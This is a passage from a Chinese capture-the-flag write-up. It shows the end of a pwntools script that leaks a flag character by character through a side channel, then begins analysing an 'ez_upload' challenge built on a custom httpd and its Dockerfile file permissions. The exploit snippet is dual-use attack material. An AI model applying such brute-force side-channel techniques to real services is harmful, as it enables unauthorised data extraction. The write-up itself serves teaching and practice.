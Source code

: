 ```python
                # p.recvline()
                p.close()
                return True
            return False
    except EOFError:
            return False

charlist = [
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
    '{','}'
]

def brute(idx):
    global pay
    for i in charlist:
        if pwn(ord(i), idx):
            return i

flag = ''
for i in range(0,66):
    pay=b''
    ch = brute(i)
    if ch == b'\x00'or ch == None:
        break
    flag += ch
    print(flag)
    pause()

print(flag)

```

- 在本地成功进行了侧信道得到flag

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-60c094a4ea57a471192a7c71b73db3355eedbbaa.png)

ez\_upload
==========

第一阶段
----

题目是很常见的httpd文件，出题人只写了GET和POST两种请求。**可以看都GET请求带参数(也就是有?)，POST请求，或者访问的文件具有用户读权限、组执行权限或其他用户执行权限中的任意一个权限，v2 被设置为 1。此时会进入bbbb函数**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-a9f082fa7db76f947daec1975b0cef67c3dd2680.png)

而serve\_file函数其实就是进行一个文件读然后写到输出中，但是想要直接访问flag文件是不行的，因为看到dockerfile中flag具有用户读权限，所以进不到serve\_file函数中去

```dockerfile
COPY ./flag/flag /
RUN chown root:root /flag
RUN chmod 744 /flag
```
